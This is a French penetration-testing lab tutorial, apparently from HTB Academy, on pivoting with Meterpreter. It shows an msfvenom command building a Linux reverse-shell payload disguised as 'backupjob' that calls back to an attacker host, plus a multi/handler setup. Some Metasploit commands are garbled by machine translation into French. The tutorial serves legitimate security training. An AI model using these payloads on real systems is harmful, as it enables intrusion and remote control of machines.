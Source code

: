 Tunnellisation Meterpreter et redirection de port
=======================================

* * * * *

Considérons maintenant un scénario où nous avons notre accès au shell Meterpreter sur le serveur Ubuntu (l'hôte pivot), et nous voulons effectuer des analyses d'énumération via l'hôte pivot, mais nous aimerions profiter des commodités que les sessions Meterpreter nous apportent . Dans de tels cas, nous pouvons toujours créer un pivot avec notre session Meterpreter sans compter sur la redirection de port SSH. Nous pouvons créer un shell Meterpreter pour le serveur Ubuntu avec la commande ci-dessous, qui renverra un shell sur notre hôte d'attaque sur le port `8080`.

#### Création de la charge utile pour l'hôte Ubuntu Pivot

Création de la charge utile pour l'hôte Ubuntu Pivot

```
dsgsec@htb[/htb]$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080

[-] Aucune plate-forme n'a été sélectionnée, en choisissant Msf::Module::Platform::Linux à partir de la charge utile
[-] Aucune arche sélectionnée, sélection de l'arche : x64 à partir de la charge utile
Aucun encodeur spécifié, sortie de données utiles brutes
Taille de la charge utile : 130 octets
Taille finale du fichier elf : 250 octets
Enregistré sous : tâche de sauvegarde

```

Avant de copier la charge utile, nous pouvons démarrer un [multi/handler](https://www.rapid7.com/db/modules/exploit/multi/handler/), également appelé gestionnaire de charge utile générique.

#### Configuration et démarrage du multi/handler

Configurer et démarrer le multi/handler

```
msf6 > utiliser exploit/multi/gestionnaire

[*] Utilisation de la charge utile configurée generic/shell_reverse_tcp
exploit msf6 (multi/gestionnaire)> définir lhost 0.0.0.0
lhost => 0.0.0.0
exploit msf6 (multi/gestionnaire)> définir lport 8080
lport => 8080
exploit msf6 (multi/handler)> définir la charge utile linux/x64/meterpreter/reverse_tcp
charge utile => linux/x64/meterpreter/reverse_tcp
exploit msf6 (multi/gestionnaire)> exécuter
[*] Démarrage du gestionnaire TCP inversé sur 0.0.0.0:8080

```

Nous pouvons copier le fichier binaire `backupjob` sur l'hôte pivot Ubuntu `over SSH` et l'exécuter pour obtenir une session Meterpreter.

#### Exécution de la charge utile sur l'hôte pivot
